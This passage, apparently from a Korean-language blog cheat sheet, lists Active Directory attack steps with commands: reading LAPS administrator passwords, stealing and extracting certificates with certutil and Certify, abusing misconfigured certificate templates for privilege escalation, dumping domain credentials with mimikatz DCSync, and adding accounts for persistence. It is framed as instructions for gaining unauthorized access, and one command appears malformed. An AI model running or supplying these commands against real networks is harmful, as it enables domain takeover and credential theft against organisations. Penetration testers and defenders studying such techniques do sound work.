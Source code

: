 2. 불허된 접근 권한을 얻기 위해 세션을 해킹하세요.

# LAPS

- AD에 저장된 LAPS 비밀번호를 검색하세요.

<div class="content-ad"></div>

```js
Get-ADComputer -Filter * -Property "ms-MCS-AdmPwd" | Select-Object Name, "ms-MCS-AdmPwd"
```

2. 지역 관리자 계정에 접근하기 위해 비밀번호를 사용하세요.

# 인증서 도난

- AD에 저장된 인증서를 식별하세요.

<div class="content-ad"></div>

```js
certutil -store -user My
```

2. Certify와 같은 도구를 사용하여 인증서를 추출하세요.

```js
Certify.exe find /type:domain
```

# 인증서 템플릿 남용

<div class="content-ad"></div>

- 자격증 템플릿 나열하기

```js
certutil - TCAInfo;
```

- 설정이 잘못된 템플릿을 남용하여 상위 권한 획득하기

```js
Certify.exe request /ca:<CA Name> /template:<Template Name>
```

<div class="content-ad"></div>

# 고 권한 계정으로 Post-Exploitation

- DCSync와 같은 도구를 사용하여 도메인 자격 증명 덤프하기.

```js
mimikatz.exe "lsadump::dcsync /domain:<도메인> /user:<사용자>" "exit"
```

2. 새 계정 생성 또는 그룹 멤버쉽 수정을 통해 권한 상승하기.
